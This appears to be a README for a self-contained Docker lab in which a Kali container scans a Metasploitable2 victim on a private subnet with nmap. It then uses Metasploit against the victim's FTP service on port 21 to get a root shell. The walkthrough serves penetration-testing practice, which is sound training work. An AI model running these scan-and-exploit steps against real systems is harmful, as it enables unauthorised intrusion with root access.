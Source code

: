 
## Setup 

```bash
make up
make ps
```

```bash
make logs container=meta2
make logs container=kali 
```

```bash
make access container=meta2
make access container=kali
```

In each container, run:

```bash
ifconfig # you should see 172.20.0.3 for the attacker and 172.20.0.2 for the victim 
```

From kali, run:

```bash
nmap -F 172.20.0.2
```

## Penetration

From kali:

```bash
nmap -sV -p 21 172.20.0.2
```

```bash
msfconsole
use 1
set rhosts 172.20.0.2
set rport 21
exploit
```

Now to check previliges, directly type:

```bash
touch you_are_pwned
```

```bash
whoami #root
```
## Stop the containers

```bash
make down
```
